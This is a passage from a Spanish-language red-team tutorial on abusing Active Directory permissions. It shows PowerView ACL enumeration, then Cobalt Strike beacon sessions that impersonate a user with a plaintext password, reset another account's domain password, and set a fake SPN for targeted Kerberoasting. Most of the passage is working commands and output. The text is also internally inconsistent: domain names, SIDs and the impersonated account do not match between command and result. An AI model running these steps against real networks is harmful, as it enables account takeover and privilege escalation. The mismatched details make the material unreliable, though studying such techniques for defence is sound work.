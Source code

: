 También podríamos lanzar una red más amplia y apuntar a unidades organizativas completas.

```powershell
powershell Get-DomainObjectAcl -SearchBase "CN=Users,DC=dev,DC=evilcorp,DC=local" | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-2697495467-513533215-122973509-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

ObjectDN              : CN=Joyce Adam,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN              : CN=1st Line Support,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN              : CN=Developers,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN              : CN=Oracle Admins,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125
```

Esto muestra que 1st Line Support tiene **GenericAll** en varios usuarios y grupos. Entonces, **¿cómo podemos abusar de estos?**

### Abusando de DACL⚔

##### Reset User Password
Reset a user's password (pretty bad OPSEC). 🎈
```powershell
beacon> make_token DEV\jking Purpl3Drag0n
[*] Tasked beacon to create a token for DEV\jking
[+] host called home, sent: 52 bytes
[+] Impersonated DEV\svc_test

beacon> run net user TestAcl NewPassword! /domain
[*] Tasked beacon to run: net user TestAcl NewPassword! /domain
[+] host called home, sent: 67 bytes
[+] received output:
Se procesara la solicitud en un controlador de dominio del dominio dev.evilcorp.local.

Se ha completado el comando correctamente.
```

##### Targeted Kerberoasting
En lugar de cambiar la contraseña, podemos configurar un SPN en la cuenta, hacer kerberoast e intentar crackear el password offline.

```powershell
# Asignando un SPN a una cuenta
powershell Set-DomainObject -Identity TestAcl -Set @{serviceprincipalname="fake/service"}

# Comprobando SPN
beacon> powershell Get-DomainUser -Identity "TestAcl" -Properties samaccountname,serviceprincipalname,Lastlogon
[*] Tasked beacon to run: Get-DomainUser -Identity "TestAcl" -Properties samaccountname,serviceprincipalname,Lastlogon
[+] host called home, sent: 529 bytes
[+] received output:

lastlogon          serviceprincipalname samaccountname
---------          -------------------- --------------
01/01/1601 1:00:00 fake/service         TestAcl
```
